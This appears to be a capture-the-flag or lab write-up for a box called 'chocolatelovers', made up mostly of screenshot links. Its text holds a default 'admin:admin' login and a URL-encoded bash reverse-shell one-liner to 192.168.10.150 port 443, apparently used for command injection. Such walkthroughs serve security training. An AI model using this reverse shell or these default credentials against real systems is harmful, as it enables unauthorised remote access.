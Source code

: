 ![](images/images-chocolatelovers/Pasted%20image%2020250226171036.png)

![](images/images-chocolatelovers/Pasted%20image%2020250226171231.png)
![](images/images-chocolatelovers/Pasted%20image%2020250226171253.png)

![](images/images-chocolatelovers/Pasted%20image%2020250226171529.png)
![](images/images-chocolatelovers/Pasted%20image%2020250226171914.png)

![](images/images-chocolatelovers/Pasted%20image%2020250226174158.png)

admin:admin
![](images/images-chocolatelovers/Pasted%20image%2020250226171854.png)

![](images/images-chocolatelovers/Pasted%20image%2020250227111219.png)

![](images/images-chocolatelovers/Pasted%20image%2020250227111144.png)


![](images/images-chocolatelovers/Pasted%20image%2020250226174347.png)

![](images/images-chocolatelovers/Pasted%20image%2020250226174407.png)

![](images/images-chocolatelovers/Pasted%20image%2020250226174513.png)

![](images/images-chocolatelovers/Pasted%20image%2020250226174834.png)

![](images/images-chocolatelovers/Pasted%20image%2020250226174916.png)

& == %26

```bash
bash -c "bash -i >%26 /dev/tcp/192.168.10.150/443 0>%261"
```

![](images/images-chocolatelovers/Pasted%20image%2020250227110848.png)

![](images/images-chocolatelovers/Pasted%20image%2020250227111008.png)

![](images/images-chocolatelovers/Pasted%20image%2020250227112614.png)

![](images/images-chocolatelovers/Pasted%20image%2020250227113511.png)
![](images/images-chocolatelovers/Pasted%20image%2020250227113702.png)
![](images/images-chocolatelovers/Pasted%20image%2020250227113757.png)

![](images/images-chocolatelovers/Pasted%20image%2020250227114324.png)




